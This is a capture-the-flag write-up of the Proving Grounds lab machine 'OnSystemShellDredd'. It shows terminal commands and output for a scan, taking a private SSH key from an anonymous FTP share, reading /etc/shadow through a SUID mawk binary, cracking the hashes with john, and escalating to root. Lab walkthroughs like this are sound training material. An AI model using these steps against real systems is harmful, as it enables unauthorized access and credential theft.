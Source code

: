 ```yaml
---
title: "Proving grounds Play: OnSystemShellDredd"
layout: post
date: 2023-07-07 22:10
categories: writeup
---
```


Proving grounds Play - OnSystemShellDredd CTF writeup.

## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/youtube.png)](https://youtu.be/UPYHCc7PdGQ)

## NMAP
```bash
naveenj@hackerspace|01:02 AM|~/Pg-Play$ nmap -p- --open -sV -sT -sC 192.168.191.130 -v -oN nmap                                                                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 01:02 EDT                                                
PORT      STATE SERVICE VERSION                                                              
21/tcp    open  ftp     vsftpd 3.0.3                                                         
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                       
| ftp-syst:                                                                                  
|   STAT:                                                                                    
| FTP server status:                                                                         
|      Connected to ::ffff:192.168.45.250                                                    
|      Logged in as ftp                                                                      
|      TYPE: ASCII                                                                           
|      No session bandwidth limit                                                            
|      Session timeout in seconds is 300                                                     
|      Control connection is plain text                                                      
|      Data connections will be plain text                                                   
|      At session startup, client count was 4                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                   
|_End of status                                                                              
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       
| ssh-hostkey:                                                                               
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)                                              
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)                                             
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                               
```

## FTP login
```bash
naveenj@hackerspace|01:07 AM|~$ ftp 192.168.191.130 21                                       
Connected to 192.168.191.130.                                                                
220 (vsFTPd 3.0.3)                                                                           
Name (192.168.191.130:naveenj): anonymous                                                    
331 Please specify the password.                                                             
Password:                                                                                    
230 Login successful.                                                                        
Remote system type is UNIX.                                                                  
Using binary mode to transfer files.                                                         
ftp>
```

### List directory
```sh
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||13654|)                                               
150 Here comes the directory listing.                                                        
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah                              
226 Directory send OK.                                                                       
ftp>
```

## Changing directory
```sh
ftp> cd .hannah                                                                              
250 Directory successfully changed.                                                          
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||8389|)                                                
150 Here comes the directory listing.                                                        
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa                               
226 Directory send OK.                                                                       
ftp>
```

## Get id_rsa key for user hannah
```sh
ftp> get id_rsa                                                                              
local: id_rsa remote: id_rsa                                                                 
229 Entering Extended Passive Mode (|||17682|)                                               
150 Opening BINARY mode data connection for id_rsa (1823 bytes).                             
100% |************************************************|  1823       11.66 MiB/s    00:00 ETA 
226 Transfer complete.                                                                       
1823 bytes received in 00:00 (8.97 KiB/s)                                                    
ftp>
```

## Login to hannah user using ssh
```sh
naveenj@hackerspace|01:12 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130                                                                                     
ssh: connect to host 192.168.191.130 port 22: Connection refused
```

Apply required permission such as `chmod 600` to the id_rsa file. Still the connection will be refused. As we have one more ssh service running on PORT 61000, we can try to connect there.

```sh
naveenj@hackerspace|01:15 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130 -p 61000                                                                           
                                                                 
hannah@ShellDredd:~$ 
```
Whooo! we are logged in to hannah user now.

### Obtaining Flag
```sh
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat user.txt
Your flag is in another file...
hannah@ShellDredd:~$ cat local.txt
5b571██████████████████████████
hannah@ShellDredd:~$ 
```

# Privilege Escalation
Get SUIDs and GUIDs

### SUIDs
```sh
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk #--strange binary
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit #--strange binary
/usr/bin/mount
/usr/bin/passwd
```

### GUIDs
```sh
hannah@ShellDredd:~$ find / -perm -g=s -type f 2>/dev/null
/usr/sbin/unix_chkpwd
/usr/bin/wall
/usr/bin/mawk
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/chage
/usr/bin/expiry
/usr/bin/bsd-write
/usr/bin/cpulimit
/usr/bin/dotlockfile
```

Search for the exploit in GFTObins for the strange binary `mawk`

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_mawk.png)

The exploit worked and we are able to view the shadow file which contains hash of the users passwords.

```sh
hannah@ShellDredd:~$ mawk '//' "/etc/shadow" | grep -iE 'root|hannah'
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFw█████████████████████████████████████████████████████████:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6R██████████████████████████████████████████████████████.:18656:0:99999:7:::
```

Let's start cracking the hashes using john or crackstation.

Copy both the passwd and shadow files to the local machine to unshadow.

`unshadow passwd shadow > crackme` run the command to unshadow the file.

### Running john
```sh
naveenj@hackerspace|01:56 AM|~/Pg-Play/OnSystemShellDredd/files$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt                                                                 
Using default input encoding: UTF-8                                                          
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])                                                                                       
Cost 1 (iteration count) is 5000 for all loaded hashes                                       
Will run 4 OpenMP threads                                                                    
Press 'q' or Ctrl-C to abort, almost any other key for status
```

After a while there is no progress, so lets check another way.

Let's check the `/usr/bin/cpulimit` binary in GTFObins for exploits.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_cpulimit.png)

Running the exploit command.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/root.png)

Obtained root and proof flag.

*Happy Hacking!*

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
